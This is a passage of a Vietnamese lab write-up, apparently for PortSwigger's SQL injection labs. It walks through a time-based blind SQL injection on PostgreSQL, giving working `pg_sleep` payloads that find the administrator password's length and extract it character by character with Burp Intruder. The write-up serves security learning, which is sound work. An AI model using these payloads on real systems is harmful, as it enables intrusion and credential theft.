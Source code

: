 Ta có [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
![](https://hackmd.io/_uploads/BJ0D3jAM6.png)

Vì ta chưa biết web sử dụng DB loại gì, nên sẽ thử từng cái. Sau khi thêm đến `'+||+pg_sleep(10)--` thì thành công
![](https://hackmd.io/_uploads/rkVw0sAG6.png)

# Lab 15: Blind SQL injection with time delays and information retrieval
![](https://hackmd.io/_uploads/H1YL5iRza.png)
Tương tự lab trên

Đầu tiên, kiểm tra xem web sử dụng DB loại nào
![](https://hackmd.io/_uploads/ryB5i4kQT.png)
Thử lệnh `|| pg_sleep(10)` thì thấy web phản hổi khá lâu còn các lệnh khác thì rất nhanh, chứng tỏ web sử dụng `PostgreSQL`

Tiếp theo, payload lệnh
```sql
'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
Khi username là `administrator` có độ dài password > 1 thì web sẽ phản hổi sau 10s, ngược lại web phản hồi ngay

Gửi qua Intruder, thử 1 -> 30
![](https://hackmd.io/_uploads/SJvvCV17T.png)
![](https://hackmd.io/_uploads/BkDx1rJXp.png)
![](https://hackmd.io/_uploads/HJHxxrJXa.png)
![](https://hackmd.io/_uploads/S1LZlHJ7a.png)

Ở request 20 ta thấy thời gian phản hồi giảm hẳn => password có độ dài 20 kí tự
![](https://hackmd.io/_uploads/HJWQxr17a.png)

Tiếp theo, payload lệnh để kiểm tra từng kí tự của password
```sql
'||(SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
Attack type: Cluster bomb
![](https://hackmd.io/_uploads/H1Rgbr1mp.png)
![](https://hackmd.io/_uploads/ryZ8bB1Xa.png)
![](https://hackmd.io/_uploads/BJZv-SJmp.png)
![](https://hackmd.io/_uploads/BkX4-r1QT.png)

Ta thấy những phản hổi lớn hơn 10s thì chính là kí tự chính xác
![](https://hackmd.io/_uploads/Hkr2Nr1mp.png)
